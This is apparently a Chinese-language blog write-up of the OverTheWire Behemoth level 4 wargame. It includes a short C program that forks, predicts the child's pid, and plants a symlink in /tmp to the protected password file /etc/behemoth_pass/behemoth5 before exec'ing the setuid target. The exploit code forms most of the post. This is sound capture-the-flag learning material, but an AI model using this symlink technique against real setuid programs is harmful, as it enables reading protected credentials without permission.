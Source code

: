 ```yaml
---
title: Behemoth4
author: rk700
layout: post
categories:
  - article
tags:
  - OverTheWire
  - exploit
---
```

这道题的程序执行后，会几乎立刻（1秒）去读一个文件，文件名和程序的pid有关。当然可以创建一大堆链接，都指向密码文件，链接名是所有可能的pid，但这样太费事儿

我们用fork，父进程可以得到子进程的pid，由此创建链接文件；子进程先sleep一段时间，以确保父进程先创建链接，然后子进程exec目标程序即可。因为pid不会随exec变，所以这也就是目标程序的pid

c代码如下

{% highlight c %}
#include<stdio.h>
#include<unistd.h>
#include<stdlib.h>

int main(int argc, char *argv[]) {
    pid_t pid;
    pid = fork();
    if(pid == -1) {
        exit(1);
    }
    
    if(pid == 0) {
        sleep(2);
        char *argv[2] = {"/behemoth/behemoth4", NULL};
        execv("/behemoth/behemoth4", argv);
    }
    else {
        char link[32];
        snprintf(link, sizeof link, "/tmp/%d", pid);
        symlink("/etc/behemoth_pass/behemoth5", link);
        int status;
        wait(&status);
        exit(0);
    }
}
{% endhighlight %}